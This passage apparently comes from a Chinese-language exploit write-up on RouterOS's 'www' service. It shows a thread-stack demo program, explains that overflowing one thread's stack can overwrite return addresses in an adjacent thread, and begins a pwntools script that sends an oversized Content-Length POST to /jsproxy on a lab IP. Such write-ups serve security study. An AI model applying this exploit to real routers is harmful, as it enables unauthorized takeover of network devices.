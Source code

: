 ```
        if((temp = pthread_create(&thread[0], NULL, thread1, NULL)) != 0)       //comment2
                printf("线程1创建失败!\n");
        else
                printf("线程1被创建\n");
        if((temp = pthread_create(&thread[1], NULL, thread2, NULL)) != 0)  //comment3
                printf("线程2创建失败");
        else
                printf("线程2被创建\n");
}
void thread_wait(void)
{
        /*等待线程结束*/
        if(thread[0] !=0) {                   //comment4
                pthread_join(thread[0],NULL);
                printf("线程1已经结束\n");
        }
        if(thread[1] !=0) {                //comment5
                pthread_join(thread[1],NULL);
                printf("线程2已经结束\n");
        }
}
int main()
{
        /*用默认属性初始化互斥锁*/
        pthread_mutex_init(&mut,NULL);
        printf("我是主函数哦，我正在创建线程，呵呵\n");
        thread_create();
        printf("我是主函数哦，我正在等待线程完成任务阿，呵呵\n");
        thread_wait();
        return 0;
}
```

就是打印了两个线程中的栈内存地址信息，然后相减，就可以大概知道线程栈的大小。
![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515171997712kemr24ne.png?imageslim)

多次运行发现，线程栈之间应该是相邻的，因为打印出来的值的差是固定的。


线程栈也是可以通过 `pthread_attr_setstacksize` 设置, 在 `RouterOs` 的 `www`的 `main` 函数里面就进行了设置。


![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515172296024czdw05qh.png?imageslim)

所以在 `www` 中的线程栈的大小 为 `0x20000`。


当我们同时开启两个 `socket` 连接时，进程的栈布局

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1515172554545mn6hijda.png?imageslim)

此时在 `线程 1` 中触发漏洞，我们就能修改 `线程 2` 的数据。

现在的思路就很简单了，我们去修改 线程2 中的某个返回地址， 然后进行 `rop`.为了精确控制返回地址。先使用 `cyclic` 来确定返回地址的偏移.因为该程序线程栈的大小为 `0x20000` 所以用一个大一点的值试几次就能试出来。
```
from pwn import *

def makeHeader(num):
    return "POST /jsproxy HTTP/1.1\r\nContent-Length: " + str(num) + "\r\n\r\n"


s1 = remote("192.168.2.124", 80)
s2 = remote("192.168.2.124", 80)


s1.send(makeHeader(0x20900))
```